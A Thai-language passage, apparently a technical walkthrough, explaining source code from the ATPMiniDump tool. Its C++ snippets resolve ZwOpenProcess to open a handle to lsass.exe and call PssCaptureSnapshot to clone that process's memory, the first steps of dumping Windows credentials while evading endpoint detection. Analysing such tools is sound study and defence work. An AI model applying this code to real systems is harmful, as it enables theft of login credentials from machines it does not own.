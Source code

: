 ต่อมามีการสร้างตัวแปรใหม่เพิ่มขึ้นมาอีก 2 รายการ ได้แก่ `uPid` เป็นประเภท `CLIENT_ID` ที่ถูกระบุเอาไว้ใน[ไฟล์ `ATPMiniDump.h` บรรทัดที่ 67](https://github.com/b4rtik/ATPMiniDump/blob/master/ATPMiniDump/ATPMiniDump.h#L67) หลังจากถูกสร้างขึ้น ตัวแปร `uPid` มีการถูกกำหนดค่าทันทีตามโครงสร้างของประเภท `CLIENT_ID` โดยค่า `uPid.UniqueProcess` ถูกกำหนดให้เป็นค่า process ID ของ `lsass.exe` ตามที่เก็บเอาไว้ใน `pWinVerInfo.hTargetPID` และค่า `uPid.UniqueThread` ถูกกำหนดให้เป็นค่า 0 ในประเภท `HANDLE`

ตัวแปรที่สองคือ `rights` โดยมีการกำหนดค่าตาม access rights ของโปรเซสที่ระบุไว้ใน[เอกสารของไมโครซอฟต์](https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights) เราคาดว่าค่าในตัวแปร `rights` จะถูกนำมาใช้อีกครั้งเพื่อระบุสิทธิ์ที่เราจะขอเข้าถึงโปรเซส

```cpp
_ZwOpenProcess ZwOpenProcess = (_ZwOpenProcess) GetProcAddress(GetModuleHandle(L"ntdll.dll"), "ZwOpenProcess");
if (ZwOpenProcess == NULL) {
  return FALSE;
}
	
NTSTATUS status = ZwOpenProcess(
  &hProcess, // ProcessHandle
  rights, // DesiredAccess
  &ObjectAttributes, // ObjectAttributes
  &uPid // ClientId
);
printf("ZwOpenProcess Handle %d\n", hProcess);
if (hProcess == NULL) {
  wprintf(L"	[!] Failed to get processhandle.\n");
  exit(1);
}
```

โค้ดส่วนต่อมาคือการสร้าง function pointer ของฟังก์ชัน `ZwOpenProcess()` และการเรียกใช้ฟังก์ชัน `ZwOpenProcess()` เราจะเห็นได้จากพารามิเตอร์ของฟังก์ชัน `ZwOpenProcess()` ว่าตัวแปรซึ่งถูกสร้างและกำหนดค่ามาก่อนหน้านั้นถูกใช้อย่างไร ในกรณีที่การทำงานของฟังก์ชัน `ZwOpenProcess()` เสร็จสิ้น ตัวแปร `hProcess` จะเก็บ process handle สำหรับโปรเซส `lsass.exe` ซึ่งสามารถนำไปใช้ต่อได้จนกว่า process handle ดังกล่าวจะถูกทำลายทิ้ง

```cpp
HANDLE snapshotHandle;

DWORD flags = (DWORD)PSS_CAPTURE_VA_CLONE
  | PSS_CAPTURE_HANDLES
  | PSS_CAPTURE_HANDLE_NAME_INFORMATION
  | PSS_CAPTURE_HANDLE_BASIC_INFORMATION
  | PSS_CAPTURE_HANDLE_TYPE_SPECIFIC_INFORMATION
  | PSS_CAPTURE_HANDLE_TRACE
  | PSS_CAPTURE_THREADS
  | PSS_CAPTURE_THREAD_CONTEXT
  | PSS_CAPTURE_THREAD_CONTEXT_EXTENDED
  | PSS_CREATE_BREAKAWAY
  | PSS_CREATE_BREAKAWAY_OPTIONAL
  | PSS_CREATE_USE_VM_ALLOCATIONS
  | PSS_CREATE_RELEASE_SECTION;

DWORD hr = PssCaptureSnapshot(
  hProcess, // ProcessHandle
  flags, // CaptureFlags
  CONTEXT_ALL, // ThreadContextFlags
  &snapshotHandle // *SnapshotHandle
  );
printf("Snapshot Handle %d\n", hr);
```
